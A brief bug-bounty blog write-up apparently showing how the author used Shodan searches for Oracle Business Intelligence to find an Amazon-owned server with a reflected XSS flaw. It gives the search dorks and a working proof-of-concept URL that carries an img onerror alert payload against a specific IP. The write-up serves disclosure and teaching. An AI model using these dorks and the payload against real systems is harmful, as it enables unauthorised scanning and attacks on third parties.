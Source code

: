 ---
title: "How I found XSS vulnerability in Amazon in 5 minutes using shodan"
classes: wide
header:
  teaser: /assets/images/crackmes/shodan.jpeg
ribbon: DodgerBlue
categories:
  - bugbounty
toc: true

This is my first write-up. I was scrolling through twitter and I found this great tip:


![](/assets/images/crackmes/xss.png)

So I quickly went to shodan and write this dork:

    html:">Oracle Business Intelligence"

to find the websites that is vulnerable to this CVE with organizations names so the final dork was like this:

    html:">Oracle Business Intelligence" org:amazon

I found an IP which is owned by Amazon that is vulnerable to this CVE

the final POC is :

https://52.46.133.78/bi-security-login/login.jsp?msi=false&redirect=%22%3E%3Cimg/src/onerror%3dalert(document.domain)%3E


![](/assets/images/crackmes/xss2.png)


Thank you.
